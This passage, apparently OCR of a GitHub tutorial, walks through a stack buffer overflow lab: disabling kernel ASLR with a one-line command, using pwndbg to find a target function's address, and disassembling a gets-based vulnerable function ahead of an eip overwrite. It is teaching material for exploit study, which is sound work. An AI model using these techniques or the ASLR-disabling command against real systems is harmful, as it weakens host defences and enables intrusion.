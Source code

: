 ### No ASLR

Since ASLR is standard now, we are actually going to have to turn it off in the kernel
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Alright, should be good to go. now if we enter the debugger on the program, we should be able to find the address of the function we want to trigger (`gen_file`).

```
# gdb vuln
pwndbg> b *main
pwndbg> r
pwndbg> disass gen_file
Dump of assembler code for function gen_file:
   0x0804851b <+0>:     push   ebp
...
``` 

This should be in the same place every time now. 

So let's start building our exploit, with the intent to put `0x0804851b` into eip. Running `find_eip` in `pwn_noASLR.py` we can make sure wer get the offsets correct.

```
# python3.8 pwn_noASLR.py
[+] Starting local process './vuln': pid 1453
Attach to the process with the debugger
...
```

Now open up another window
```
# gdb -p=1453
pwndbg> disass vuln_func
Dump of assembler code for function vuln_func:
   0x08048534 <+0>:     push   ebp
   0x08048535 <+1>:     mov    ebp,esp
   0x08048537 <+3>:     sub    esp,0x68
   0x0804853a <+6>:     sub    esp,0xc
   0x0804853d <+9>:     lea    eax,[ebp-0x68]
   0x08048540 <+12>:    push   eax
   0x08048541 <+13>:    call   0x80483d0 <gets@plt>
   0x08048546 <+18>:    add    esp,0x10
   0x08048549 <+21>:    sub    esp,0xc
   0x0804854c <+24>:    lea    eax,[ebp-0x68]
   0x0804854f <+27>:    push   eax
   0x08048550 <+28>:    call   0x80483c0 <printf@plt>
   0x08048555 <+33>:    add    esp,0x10
   0x08048558 <+36>:    sub    esp,0x8
   0x0804855b <+39>:    push   0x804865f
   0x08048560 <+44>:    lea    eax,[ebp-0x68]
   0x08048563 <+47>:    push   eax
   0x08048564 <+48>:    call   0x80483b0 <strcmp@plt>
   0x08048569 <+53>:    add    esp,0x10
   0x0804856c <+56>:    test   eax,eax
   0x0804856e <+58>:    je     0x8048572 <vuln_func+62>
   0x08048570 <+60>:    jmp    0x804853a <vuln_func+6>
   0x08048572 <+62>:    nop
   0x08048573 <+63>:    nop
   0x08048574 <+64>:    leave
   0x08048575 <+65>:    ret
End of assembler dump.
```
